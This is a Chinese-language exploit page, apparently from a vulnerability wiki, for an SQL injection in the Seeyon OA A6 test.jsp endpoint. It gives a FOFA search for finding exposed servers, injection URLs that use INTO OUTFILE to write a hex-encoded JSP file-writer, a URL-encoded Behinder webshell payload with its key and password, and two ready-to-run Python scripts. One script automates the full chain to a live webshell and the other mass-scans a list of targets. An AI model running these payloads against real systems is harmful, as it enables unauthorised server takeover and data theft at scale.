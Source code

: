 # 致远OA A6 test.jsp SQL注入漏洞

## 漏洞描述

致远OA A6 test.jsp 存在sql注入漏洞，并可以通过注入写入webshell文件控制服务器

## 漏洞影响

> [!NOTE]
>
> 致远OA A6

## FOFA

> [!NOTE]
>
> title="致远A8+协同管理软件.A6"

## 漏洞复现

访问URL

```
http://xxx.xxx.xxx.xxx/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20database())
```

![](http://wikioss.peiqi.tech/vuln/zhiyuan-25.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

返回了当前使用的数据库

要想写入shell需要知道写入的路径

![](http://wikioss.peiqi.tech/vuln/zhiyuan-26.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

这里得到路径 D:\Program Files\UFseeyon\OA\mysql\bin\..\

通过 into outfile 写入文件，这里因为 jsp木马存在特殊符号，使用 hex编码 上传允许文件上传的jsp文件

```jsp
<%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\\")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%>

HEX编码

3C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C5C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E
```

```
http://xxx.xxx.xxx.xxx/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20unhex(%273C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E%27)%20%20into%20outfile%20%27E:/Program Files/UFseeyon/OA/tomcat/webapps/yyoa/test_upload.jsp%27
```

![](http://wikioss.peiqi.tech/vuln/zhiyuan-27.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

显示上图则上传成功，访问 test_upload.jsp 为空白不报错页面不存在就是上传成功

在发送请求包上传webshell，这里上传冰蝎

> [!NOTE]
>
> 注意上传的webshell需要url编码一下

![](http://wikioss.peiqi.tech/vuln/zhiyuan-28.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

```
http://xxx.xxx.xxx.xxx/yyoa/peiqi_upload.jsp?f=testwebshell.jsp

t=%3C%25%40page%20import%3D%22java.util.*%2Cjavax.crypto.*%2Cjavax.crypto.spec.*%22%25%3E%3C%25!class%20U%20extends%20ClassLoader%7BU(ClassLoader%20c)%7Bsuper(c)%3B%7Dpublic%20Class%20g(byte%20%5B%5Db)%7Breturn%20super.defineClass(b%2C0%2Cb.length)%3B%7D%7D%25%3E%3C%25if%20(request.getMethod().equals(%22POST%22))%7BString%20k%3D%22e45e329feb5d925b%22%3Bsession.putValue(%22u%22%2Ck)%3BCipher%20c%3DCipher.getInstance(%22AES%22)%3Bc.init(2%2Cnew%20SecretKeySpec(k.getBytes()%2C%22AES%22))%3Bnew%20U(this.getClass().getClassLoader()).g(c.doFinal(new%20sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext)%3B%7D%25%3E
```

连接木马

![](http://wikioss.peiqi.tech/vuln/zhiyuan-29.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞利用POC

> [!NOTE]
>
> EXP木马上传

```python
import requests
import sys
import random
import re
import base64
import time
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 致远OA                                                   \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20@@basedir)"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, verify=False, timeout=5)
        if '序号' in response.text and "@@basedir" in response.text and response.status_code == 200:
            OA_dir = re.findall(r'>(.*)\\UFseeyon\\', response.text)[0]
            OA_dir = OA_dir[:2] + '/' + OA_dir[3:]
            print("\033[32m[o] 目标 {}存在漏洞, 安装路径为:{} \033[0m".format(target_url, OA_dir))
            webshell_name = "test_upload{}.jsp".format(random.randint(1,999))
            OA_dir = OA_dir + "/UFseeyon/OA/tomcat/webapps/yyoa/{}".format(webshell_name)
            POC_2(target_url, OA_dir, webshell_name)
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url), e)

def POC_2(target_url, OA_dir, webshell_name):
    vuln_url = target_url + "/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20unhex(%273C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E%27)%20%20into%20outfile%20%27{}%27".format(OA_dir)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, verify=False, timeout=5)
        if 'already' in response.text and  response.status_code == 200:
            print("\033[32m[o] 文件写入木马上传失败，目标已存在相同文件，请重新运行\033[0m")
        elif "No Data" in response.text and  response.status_code == 200:
            print("\033[32m[o] 文件写入木马上传成功，上传路径为 {}\033[0m".format(OA_dir))
            POC_3(target_url, webshell_name)
        else:
            print("\033[31m[x] 目标 {} 木马上传失败 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url), e)

def POC_3(target_url, webshell_name):
    rebe_webshell = "testwebshell{}.jsp".format(random.randint(1,999))
    vuln_url = target_url + "/yyoa/{}?f={}".format(webshell_name, rebe_webshell)
    data = "t=%3C%25%40page%20import%3D%22java.util.*%2Cjavax.crypto.*%2Cjavax.crypto.spec.*%22%25%3E%3C%25!class%20U%20extends%20ClassLoader%7BU(ClassLoader%20c)%7Bsuper(c)%3B%7Dpublic%20Class%20g(byte%20%5B%5Db)%7Breturn%20super.defineClass(b%2C0%2Cb.length)%3B%7D%7D%25%3E%3C%25if%20(request.getMethod().equals(%22POST%22))%7BString%20k%3D%22e45e329feb5d925b%22%3Bsession.putValue(%22u%22%2Ck)%3BCipher%20c%3DCipher.getInstance(%22AES%22)%3Bc.init(2%2Cnew%20SecretKeySpec(k.getBytes()%2C%22AES%22))%3Bnew%20U(this.getClass().getClassLoader()).g(c.doFinal(new%20sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext)%3B%7D%25%3E"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        print("\033[32m[o] 正在请求：{}\033[0m".format(vuln_url))
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        if response.status_code == 200:
            print("\033[32m[o] 木马上传成功, 路径为:{}/yyoa/{}\033[0m".format(target_url, rebe_webshell))
            print("\033[32m[o] 请使用冰蝎连接，密码为: rebeyond\033[0m")
        else:
            print("\033[31m[x] 木马上传失败，可能被拦截 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url), e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/zhiyuan-30.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

> [!NOTE]
>
> 多个目标测试

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 致远OA A6                                              \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20md5(1))"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "c4ca4238a0b923820dcc509a6f75849b" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞,下载地址:{} \033[0m".format(target_url, vuln_url))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

def Scan(file_name):
    with open(file_name, "r", encoding='utf8') as scan_url:
        for url in scan_url:
            if url[:4] != "http":
                url = "http://" + url
            url = url.strip('\n')
            try:
                POC_1(url)

            except Exception as e:
                print("\033[31m[x] 请求报错 \033[0m".format(e))
                continue

if __name__ == '__main__':
    title()
    file_name  = str(input("\033[35mPlease input Attack File\nFile >>> \033[0m"))
    Scan(file_name)
```

![](http://wikioss.peiqi.tech/vuln/zhiyuan-31.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Seeyon_OA_A6_test.jsp_SQL_injection

![](http://wikioss.peiqi.tech/vuln/zhiyuan-42.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)